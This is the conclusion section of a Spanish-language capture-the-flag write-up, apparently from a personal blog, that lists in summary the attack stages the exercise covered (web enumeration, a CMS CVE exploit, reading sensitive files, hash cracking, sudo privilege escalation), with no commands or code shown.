

---

## 🧾 Conclusión
Este CTF demostro multiples vectores de ataque:
- Enumeracion web
- Explotacion de CVE en CMS
- Post-explotacion con lectura de archivos sensibles
- Cracking de hashes
- Escalada de privilegios con binario permitido por sudo

Una cadena excelente de explotacion realista y formativa

### Write-up realizado por **c0k3r0** — El Sótano de c0k3r0 �

🔙 [Volver al índice](../../index.md)

